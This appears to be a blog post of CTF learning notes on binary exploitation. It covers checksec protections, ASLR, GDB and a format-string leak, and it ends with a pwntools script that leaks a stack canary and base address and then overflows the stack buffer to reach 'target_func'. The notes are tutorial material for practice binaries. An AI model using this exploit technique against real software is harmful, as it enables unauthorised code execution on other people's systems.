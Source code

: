 ```yaml
---
title: BINARY EXPLOITATION
date: 2023-05-06 01:30:40 +/-TTTT
categories: [learning, rev]
tags: [ctf]     # TAG names should always be lowercase
---
```


Binary Exploitation is the process of finding vulnerabilities in the binary file.

# Prerequisites

This post uses “rizin” for dynamic analysis.
And “pwntools” python package is useful for binary exploitation.

# Investigation
* Basic

```
file ./example
strings ./example

objdump -d ./example
# -M: type
objdump -M intel -d ./example
```

# Security Properties

First check the executable properties.

```
checksec --file=./example
```

RELRO (stands for Relocation Read-Only)

* Partial RELRO - We can read/write the global offset table.

* Full RELRO - We can only read the global offset table. So we cannot overwrite GOT.

STACK CANARY

* No canary found - It’s vulnerable to buffer overflow.

NX (stands for Non-eXecutable segments)

* NX enabled - We cannot execute custom shellcode from the stack.

PIE (stands for Position Independent Executable)

* No PIE - The binary always starts at same address.


# ASLR (Address Space Layout Randomization) in Machine

ASLR is a security technique involved in preventing exploitation of memory corruption vulnerabilities.

```
cat /proc/sys/kernel/randomize_va_space
2
```

* 0 - The address space is NOT randomized.
* 1 - The address space is randomized.
* 2 - The address space is randomized, and data segment as well.

# GDB Introductions
GDB, or the GNU Debugger, is the standard debugger of Linux systems developed by the GNU Project. It has been ported to many systems and supports the programming languages C, C++, Objective-C, FORTRAN, Java, and many more.

GDB provides us with the usual traceability features like breakpoints or stack trace output and allows us to intervene in the execution of programs. It also allows us, for example, to manipulate the variables of the application or to call functions independently of the normal execution of the program.

We use GNU Debugger (GDB) to view the created binary on the assembler level. Once we have executed the binary with GDB, we can disassemble the program's main function.


* Start Debug

```
# Change permission for debugging
chmod +x example

# -d: Debug mode
plugin -d example
```

# Format String (Pointer)

```
./example

Type something:
>> %2$p
The result is 0x555a18ae6365
```

# Bypass Canary Protection

```python
from pwn import *
import re

context.update(arch="amd64", os="linux")

filepath = "./example"
elf = context.binary = ELF(filepath)

p = process(filepath) # p = remote('example.com', '1337') for remote connection

# We need to find the stack canary. This address ends with "00".
# To find it, execute p.sendline(b"%p %p %p %p ...").
p.sendline(b"%10$p %13$p")
p.recvuntil(b"result: ")
leaked = p.recvline().split()
print(leaked)
base = int(leaked[0], 16) - 0xa90
canary = int(leaked[1], 16)
elf.address = base

payload = b"A"*24
payload += p64(canary)
payload += b"B"*8
payload += p64(base + 0x6fe)
payload += p64(elf.sym["target_func"])

p.sendline(payload)
p.interactive()
```
